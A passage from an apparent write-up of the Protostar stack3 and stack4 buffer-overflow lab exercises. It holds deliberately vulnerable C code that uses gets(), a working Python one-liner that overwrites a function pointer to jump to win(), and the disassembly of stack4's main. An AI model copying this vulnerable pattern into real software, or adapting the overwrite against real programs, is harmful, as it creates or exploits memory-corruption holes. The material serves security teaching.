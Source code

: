```c

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}

```
```
nm ./stack3
08048424 T win

(python -c 'print "a"*64 + "\x08\x04\x84\x24"[::-1]'; cat -) | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

# Stack 4 #

```c

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

```
0x08048408 <main+0>:	push   %ebp
0x08048409 <main+1>:	mov    %esp,%ebp
0x0804840b <main+3>:	and    $0xfffffff0,%esp
0x0804840e <main+6>:	sub    $0x50,%esp
0x08048411 <main+9>:	lea    0x10(%esp),%eax
0x08048415 <main+13>:	mov    %eax,(%esp)
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave
0x0804841e <main+22>:	ret
```
